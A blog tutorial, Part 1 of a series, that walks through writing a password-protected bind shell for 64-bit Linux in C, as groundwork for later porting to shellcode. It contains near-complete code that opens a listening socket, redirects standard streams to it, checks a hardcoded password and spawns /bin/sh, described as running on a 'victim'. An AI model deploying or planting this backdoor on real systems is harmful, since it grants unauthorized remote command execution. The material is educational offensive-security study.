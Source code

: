 ```yaml
---
title: "Implementing a password protected bind shell in shellcode - Part 1"
categories:
  - Assembly
---
```


The goal of the following blog post is to write shellcode for the Linux 64-bit architecture that will ultimately spawn a bind shell and require a password for connecting to it.

<h4>To accomplish this goal, we will break this process up into 3 parts:</h4>

<ol>
    <li>Firstly, we need to write the code, in the C Programming Language, for creating a socket and password protecting it.</li>
    <li>Secondly, the C code needs to be ported to x86_64 Assembly code.</li>
    <li>Lastly, all Null bytes need to be removed from the Assembly code and we need to look for opportunities to optimize our shellcode to keep the final payload as small as possible.</li>
</ol>

<h4>This blog post will consist of two parts:</h4>

<ul>
    <li>Part 1 - Writing a password protected bind shell in the C Programming Language</li>
    <li>Part 2 - Porting the C code to Linux 64-bit Assembly code and optimizing the code for use as shellcode</li>
</ul>

<h2>PART 1 - Writing a password protected bind shell for Linux in C</h2>
 
In this section, I will take you through a step-by-step process of coding a bind shell and will try my best to clarify it as best I can. Before we begin with this process though, let's make sure everybody knows what we are ultimately trying achieve.

<h3>What is a Bind Shell?</h3>

A Bind Shell is created when a socket is created on the host and is then bound to a specific port. A Bash shell is then bound to this specific socket. This means that anybody connecting to the listener will be presented with a bash shell upon successful connection. The security implication here is that anybody can connect to the running listener, so if we can password protect the bind shells that we spawn then we can prevent arbitrary connections to it and provides us with more control.

<h3>Creating the Bind Shell</h3>

In the process of creating a bind shell, we will be stepping through 7 stages:

<ol>
<li>Creating a new socket</li>
<li>Binding the newly created socket to a port</li>
<li>Listen for incoming connections on the newly created socket</li>
<li>Wait for incoming connections on the newly created socket</li>
<li>Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities.</li>
<li>Wait for input (password) to be received and compare it against the correct password string</li>
<li>Spawn the shell, if password is correct</li>
</ol>


So let's get started in coding out the 7 stages.

<h3><b>Stage 1 - Creating a new socket</b></h3>

The skeleton code that we will be departing on this journey from can be seen below. This is essentially just declaring some variables, to be used later, as well as importing the necessary libraries we will be using in the code.

```c++
#include<stdlib.h>
#include<string.h>
#include<strings.h>
#include<unistd.h>
#include<arpa/inet.h>

int main()
{
        struct sockaddr_in server;
        struct sockaddr_in client;
        int sock;
        int new_sock;
        int sockaddr_len = sizeof(struct sockaddr_in);
        // Change arguments as required - last argument is password
        char *arguments[] = { "/bin/sh", 0, "4444", "YOLOOOOOOO" };
        char buf[16];
}
```

Creating the socket is handled by the socket syscall. Syscall stands for System Call and is used to make requests from the user space into the Linux Kernel. The importance and intricacies of syscalls when it comes to shellcode/Assembly Language will be explained in Part 2 of this blog. 

Referring to the man page for [socket](https://man7.org/linux/man-pages/man2/socket.2.html), it requires 3 arguments:

<ul>
    <li>Protocol Family - We will be using AF_INET (IPv4 Internet Protocols)</li>
    <li>Communication Type - We will use SOCK_STREAM (TCP)</li>
    <li>The third argument does not concern us so we will only pass 0</li>
</ul>

```c++
sock = socket(AF_INET, SOCK_STREAM, 0);
```

The return value for the above syscall will be a file descriptor for the new socket.

<h3><strong>Stage 2 - Binding the newly created socket to a port</strong></h3>

In this step we will assign an address to the newly created socket. We will use the [bind](https://man7.org/linux/man-pages/man2/bind.2.html) syscall for this. The bind syscall again takes 3 arguments:

<ul>
    <li>The socket to bind to - We will use our new socket "sock"</li>
    <li>Data structure of the server/victim, which is essentially the IP Address and port that the bind syscall needs to use. This data structure consists of 4 members that are each explained below.</li>
    <li>Length of the data structure passed in argument 2. This was declared during the skeleton code stage.</li>
</ul>

```c++
server.sin_family = AF_INET; //Address Family
server.sin_port = htons(atoi(arguments[2])); //Network Byte order of the port to bind to. 
                                             //htons converts host byte order to network byte order
server.sin_addr.s_addr = INADDR_ANY; //Netowrk interfaces to bind to, INADDR_ANY = All interfaces
bzero(&server.sin_zero, 8); // 8 zero bytes of padding

bind(sock, (struct sockaddr *)&server, sockaddr_len);
```

<h3>Stage 3 - Listen for incoming connections on the newly created socket</h3>

The [listen](https://man7.org/linux/man-pages/man2/listen.2.html) syscall accepts 2 arguments:

<ul>
<li>File descriptor of new socket in Stage 1</li>
<li>Backlog - Maximum number of pending connections in the queue</li>
</ul>

```c++
listen(sock, 2);
```

<h3>Stage 4 - Wait for incoming connections on the newly created socket</h3>

For this stage we will wait for connections on our newly created socket, using the [accept](https://man7.org/linux/man-pages/man2/accept.2.html) syscall, and as soon as a connection is initiated, we will create new socket with the network information of the incoming connection and store it in a new variable. After the new socket is created, we will tear down or close the original socket.

The accept syscall takes 3 arguments:

<ul>
<li>The socket we are listening on</li>
<li>Pointer to a sockaddr data structure - as discussed in stage 2. the difference with this step is that the accept syscall will populate the 4 members of the data structure for us based on the incoming connection. </li>
<li>Pointer to the size of the sockaddr structure in point above. This was already declared in the variables at the start of the code.</li>
</ul>

```c++
new_sock = accept(sock, (struct sockaddr *)&client, &sockaddr_len);
close(sock);
```

The return value of the accept syscall is a new file descriptor pointing to the newly created socket.

<h3>Stage 5 - Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities</h3>

For this stage we will be duplicating the file descriptor of our newly created socket and provide it with the basic shell capabilities and we will be using the [dup2](https://man7.org/linux/man-pages/man2/dup.2.html) syscall for this purpose. We need to provide the file descriptor of our newly created socket and the integer assigned to STDIN (0), STDOUT (1) and STDERROR(2) to dup2.

```c++
dup2(new_sock, 0);
dup2(new_sock, 1);
dup2(new_sock, 2);
```

<h3>Stage 6 - Wait for input (password) to be received and compare it against the correct password string</h3>

Now that we have remote shell capabilities on our socket, lets wait for input (password) from the connection and compare it to the password that we have in memory. We will wait for and read input with the [read](https://man7.org/linux/man-pages/man2/read.2.html) syscall.

The read syscall accept 3 arguments:

<ul>
<li>File descriptor of our newly created socket</li>
<li>Buffer - was assigned at the variables section of the code</li>
<li>Number of bytes to read from the file descriptor into the buffer</li>
</ul>

We will then use the strcspn syscall to calculate the number of bytes in the buffer and and using strcmp syscall to compare the string in the buffer with our hardcoded password in memory. If the two strings match, the strcmp syscall will return a 0, and our program will continue. If the two strings don't match, our program/shell will exit.

```c++
read(new_sock, buf, 16);
buf[strcspn(buf, "\n")] = 0;
if (strcmp(arguments[3], buf) == 0)
{
        execve(arguments[0], &arguments[0], NULL);
}
```

<h3>Stage 7 - Spawn the shell, if password is correct</h3>

So, if we have provided the correct password our program/shell will continue and actually spawn our shell, using the [execve](https://man7.org/linux/man-pages/man2/execve.2.html) syscall, as specified in the variables section.

The execve syscall executes a program using:

<ul>
<li>Pathname of the executable or script to run</li>
<li>A pointer to the filename/executable and arguments passed to the executable. We do not have any arguments in this case, so just the pointer to our executable</li>
<li>Environmental variables for use by the program - We set this to NULL as we are not concerned with this</li>
</ul>

```c++
execve(arguments[0], &arguments[0], NULL);
```

Hopefully, if we have done everything right, we will be presented with our remote shell capabilities on the victim. Personally, I prefer the fact that there is no prompt for a password as it adds an element of obscurity for somebody connecting to the shell without spawning it themselves.

The code for the password protected bind shell can be found [here](https://github.com/J33R4FF3/Pass_Bind_Shell).

I hope I explained everything in enough detail for it to make a bit more sense to you as this is also an attempt at understanding the inner workings of bind and reverse shells better myself.

In [PART 2](https://j33r4ff3.github.io/blog/Creating-TCP-Bind-Shell-with-C_2/) we will be discussing how to port all of the above to Linux x86_64 Assembly code so that we can use the shellcode when the situation presents itself. 
